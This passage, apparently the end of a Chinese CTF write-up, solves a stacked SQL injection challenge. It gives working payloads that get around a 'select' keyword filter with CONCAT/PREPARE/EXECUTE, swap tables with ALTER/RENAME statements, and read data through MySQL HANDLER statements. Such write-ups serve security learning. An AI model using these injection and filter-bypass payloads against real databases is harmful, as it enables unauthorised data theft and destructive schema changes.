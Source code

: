 所以拼接起来的payload就是 ``0';set @a = CONCAT('selec','t * from `1919810931114514`;');PREPARE test from @a;EXECUTE test;# ``

#### 法二：重命名绕过（利用alter语句和rename语句）

这个要求对SQL语句玩的挺六的，实在难以理解的话，可以用模拟数据库尝试以下

代码如下：
```
1';
alter table words rename to words1;
alter table `1919810931114514` rename to words;
alter table words change flag id varchar(50);#
```

执行完上述请求再请求1’ or 1=1#即可获得Flag

参考：http://www.saucer-man.com/information_security/302.html

#### 法三：handler语句代替select查询:

可以了解以下

代码如下：

```
1';
handler `1919810931114514` open as ye;  
//同样的，这里的表名因为是纯数字所以需要用反引号包裹

handler ye read first;
handler ye close;#  
//注意：这里必须close handler才可以获取Flag
```

这里附上handler的用法：

```
handler users open as yunensec; #指定数据表进行载入并将返回句柄重命名
handler yunensec read first; #读取指定表/句柄的首行数据
handler yunensec read next; #读取指定表/句柄的下一行数据
handler yunensec read next; #读取指定表/句柄的下一行数据
...
handler yunensec close; #关闭句柄
```

参考：https://www.cnblogs.com/yesec/p/12381210.html

## 结语

总之就是难度挺高的，费了我不少时间0.0
